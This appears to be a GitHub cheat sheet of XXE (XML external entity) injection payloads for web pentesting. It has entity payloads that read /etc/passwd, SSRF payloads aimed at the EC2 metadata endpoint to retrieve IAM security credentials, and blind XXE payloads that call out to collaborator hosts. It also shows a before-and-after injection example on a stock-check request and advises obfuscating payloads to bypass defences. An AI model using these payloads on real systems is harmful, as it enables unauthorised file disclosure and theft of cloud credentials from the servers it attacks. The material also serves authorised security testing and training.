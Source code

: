 # Contents
* [Hidden attack surface](#Hidden-XXE-attack-surface-via-exploiting-XInclude-to-retrieve-files)
# XXE Payloads

### External source for learning and exploiting
https://youtu.be/gjm6VHZa_8s?si=kYbaFjUQXSRGJ5HZ
## Note

Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like XSS and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to obfuscate your attack in order to bypass weak defences.

### Normal Method
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  >> For retrieving server files.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>  >> For SSRF attack.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://zhkjg0n2ikpienyuf43fiyvuelkc82wr.oastify.com"> ]>  >> For Blind xxe attack.
&xxe;
```
Note: http://169.254.169.254/latest/meta-data/iam/security-credentials/admin endpoint EC2 to retrieve info for SSRF.
#### Example:
Before Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
After Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use ```XML parameter entities instead```.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://x0yhzy601i8gxlhsy2md1wesxj3ar2fr.oastify.com"> %xxe; ]>  >> For Blind xxe via XML parameter entities.
```
#### Example:
Blind Injection via ```XML parameter entities```.